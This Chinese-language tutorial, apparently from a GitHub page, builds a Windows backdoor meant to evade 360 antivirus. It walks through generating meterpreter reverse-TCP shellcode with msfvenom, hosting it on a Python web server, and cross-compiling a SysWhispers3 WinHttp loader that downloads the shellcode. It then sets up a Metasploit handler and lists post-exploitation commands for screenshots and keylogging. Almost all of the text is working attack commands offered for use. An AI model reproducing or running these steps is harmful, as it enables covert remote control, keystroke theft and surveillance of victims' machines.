 ### Kali 后门 免杀 过360
**先大体浏览一下，再跟着做**

**第一步：** 在Kali中使用`msfvenom`生成Shellcode：

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=x.x.x.x lport=4444 -f raw -o beacon.bin
```

**第二步：** 使用Python 3开启Web服务

1. 新建一个文件夹作为Web服务的目录：

```
mkdir http
```

2. 将生成的 `beacon.bin` 移动到 `http` 目录：

```
mv beacon.bin ./http/
```

3. 启动Web服务：

```
sudo python3 -m http.server -d ./http/
```

**第三步：** 生成exe文件

1. 修改 `SysWhispers3WinHttp.c` 文件的第40行IP地址。
2. 使用Linux 64位GCC进行交叉编译：

```
x86_64-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls64.c SysWhispers3WinHttp.c -masm=intel -w -s -lwinhttp -O1
```

3. 将生成的exe文件拷贝到Windows机器中。

**第四步：** 开启msf监听

1. 进入框架：

```
msfconsole
```

2. 使用监听模块：

```
use exploit/multi/handler
```

3. 设置载荷：`set payload windows/x64/meterpreter/reverse_tcp`
4. 设置IP和端口与第一步中一致：`set LHOST x.x.x.x` 和 `set LPORT 4444`
5. 运行：`run`

**第五步：** 运行后门

**第六步：** 监听机器

1. 显示会话：`sessions -l`
2. 进入会话：`session 2`
3. 退出会话：`bg`
4. 基础信息查看
   - 查看系统信息：`sysinfo`
   - 查看用户权限：`getuid`
   - 截图：`screenshot`
   - 开启键盘记录功能：`keyscan_start`
   - 显示捕捉到的键盘记录信息：`keyscan_dump`
